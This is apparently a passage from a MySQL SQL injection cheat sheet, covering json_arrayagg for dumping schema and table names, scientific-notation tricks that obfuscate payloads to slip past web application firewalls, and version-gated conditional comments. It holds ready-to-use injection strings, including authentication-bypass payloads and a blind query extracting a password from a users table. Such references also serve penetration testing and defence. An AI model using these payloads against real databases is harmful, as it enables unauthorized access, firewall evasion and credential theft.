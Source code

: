 ```sql
mysql> SELECT @@GLOBAL.VERSION;
+------------------+
| @@GLOBAL.VERSION |
+------------------+
| 8.0.27           |
+------------------+
```

### Alternative to GROUP_CONCAT

Requirement: `MySQL >= 5.7.22`

Use `json_arrayagg()` instead of `group_concat()` which allows less symbols to be displayed

* `group_concat()` = 1024 symbols
* `json_arrayagg()` > 16,000,000 symbols

```sql
SELECT json_arrayagg(concat_ws(0x3a,table_schema,table_name)) from INFORMATION_SCHEMA.TABLES;
```

### Scientific Notation

In MySQL, the e notation is used to represent numbers in scientific notation. It's a way to express very large or very small numbers in a concise format. The e notation consists of a number followed by the letter e and an exponent.
The format is: `base 'e' exponent`.

For example:

* `1e3` represents `1 x 10^3` which is `1000`.
* `1.5e3` represents `1.5 x 10^3` which is `1500`.
* `2e-3` represents `2 x 10^-3` which is `0.002`.

The following queries are equivalent:

* `SELECT table_name FROM information_schema 1.e.tables`
* `SELECT table_name FROM information_schema .tables`

In the same way, the common payload to bypass authentication `' or ''='` is equivalent to `' or 1.e('')='` and `1' or 1.e(1) or '1'='1`.
This technique can be used to obfuscate queries to bypass WAF, for example: `1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2`

### Conditional Comments

MySQL conditional comments are enclosed within `/*! ... */` and can include a version number to specify the minimum version of MySQL that should execute the contained code.
The code inside this comment will be executed only if the MySQL version is greater than or equal to the number immediately following the `/*!`. If the MySQL version is less than the specified number, the code inside the comment will be ignored.

* `/*!12345UNION*/`: This means that the word UNION will be executed as part of the SQL statement if the MySQL version is 12.345 or higher.
* `/*!31337SELECT*/`: Similarly, the word SELECT will be executed if the MySQL version is 31.337 or higher.
